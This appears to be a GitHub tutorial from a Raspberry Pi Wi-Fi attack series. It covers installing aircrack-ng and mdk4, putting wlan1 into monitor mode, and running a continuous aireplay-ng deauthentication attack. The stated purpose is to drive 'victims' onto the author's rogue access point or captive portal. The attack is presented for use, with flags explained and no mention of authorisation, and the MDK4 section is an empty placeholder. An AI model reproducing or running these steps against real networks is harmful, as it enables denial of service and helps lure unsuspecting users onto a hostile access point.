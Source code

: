 # WI-FI Jamming with Raspberry PI

If you have read the previous tutorial [Wi-Fi Analysis](../WIFIAnalysis), you know your Wi-Fi environment around your location. Now you can immediately create an [Simple Access Point](../AccessPoint) and wait until the first victims come by themselves. You can also do this process a little faster -> The IEEE 802.11 (_Wi-Fi_) protocol contains the provision for a deauthentication frames.

## Objective

The aim of this tutorial is to speed-up the process that stations will connect to your access point.

## Precondition

You should already have read (_and successful carried out_) the following tutorials.

- [Setup Raspberry PI](../Setup)
- [Prepare Raspberry PI](../Preparation)
- [Wi-Fi Analysis](../WIFIAnalysis)

## Install needed and/or optional packages

Install (_or ensure they are installed_) following packages.

```shell
# update system (optional)
$ sudo apt update -y && sudo apt upgrade -y

# install optional packages (optional)
$ sudo apt install -y vim wireless-tools

# install needed packages
$ sudo apt install -y aircrack-ng mdk4
```

## Attention

> In this tutorial we need the `wlan1` interface in the so-called monitor mode. You cannot use the `wlan0` interface from the Raspberry PI for this.

If you have already set up an [Access Point](../AccessPoint) and/or a [Captive portal](../CaptivePortal), you should stop them now!

```shell
# stop nodogsplash service
$ sudo systemctl stop nodogsplash

# stop hostapd service
$ sudo systemctl stop hostapd

# stop dnsmasq service
$ sudo systemctl stop dnsmasq
```

## Monitor Mode

The Wi-Fi interface (_wlan1_) must be set into "monitor mode".

```shell
# set interface down
$ sudo ip link set wlan1 down

# turn interface into monitor mode
$ sudo iwconfig wlan1 mode monitor

# set interface up
$ sudo ip link set wlan1 up
```

## aireplay-ng (Aircrack-ng)

The Aircrack-ng suite includes many tools to assess Wi-Fi networks. Here we focus on `aireplay-ng` only. 

```shell
# show help (optional)
$ aireplay-ng --help

# start deauthentication attack
$ sudo aireplay-ng -0 0 -a [mac address] -c [mac address] wlan1
```

- `-0` means deauthentication mode
- `0` means send continuously deauthentication frames (_otherwise you can set a specific number_)
- `-a [mac address]` means MAC address of the access point
- `-c [mac address]` means MAC address of the station
- `wlan1` means the interface`(_in monitor mode_)

## MDK4

... in work ...

```shell
#
$
```

[Go Back](../readme.md)
